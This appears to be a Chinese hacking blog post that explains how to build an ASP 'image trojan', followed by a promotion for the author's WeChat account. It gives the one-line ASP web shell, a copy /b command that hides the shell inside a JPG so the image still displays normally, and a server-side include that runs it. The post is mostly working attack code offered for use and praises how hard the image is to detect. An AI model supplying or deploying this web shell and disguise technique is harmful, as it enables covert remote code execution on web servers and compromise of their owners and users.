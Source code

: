 ```yaml
---
layout: post
category: binghe-code-hack
title: asp图片木马的制作和使用
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: asp图片木马的制作和使用
lock: need
---
```


# asp图片木马的制作和使用

先看代码：

仅需几步：图片和一句话木马合并，制作可以正常显示的图片木马。

1、找一张图片，名字改成1.jpg
2、<%eval request(“a”)%>存为1.asp（就是一句话木马）
3、copy 1.jpg /b + 1.asp /a asp.jpg 存为1.bat文件

注：以上三个文件放在同一目录里面

复制当前目录下的1.jpg图片和当前目录下的1.asp文件并以ASCII代码的方式合并为 asp.jpg图片，运行1.bat，就会出现一个图片asp.jpg，现在这个asp.jpg就是已经做好的木马了。

这个图片外表很正常，用缩略图也看不出任何破绽，但是却非常的危险，让人防不胜防。

利用方法：新建一个asp.asp 内容为：

```html
<!–#include file=”asp.jpg”–>
```

把asp.jpg 和 asp.asp 放在同一目录，然后访问： asp.asp 。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)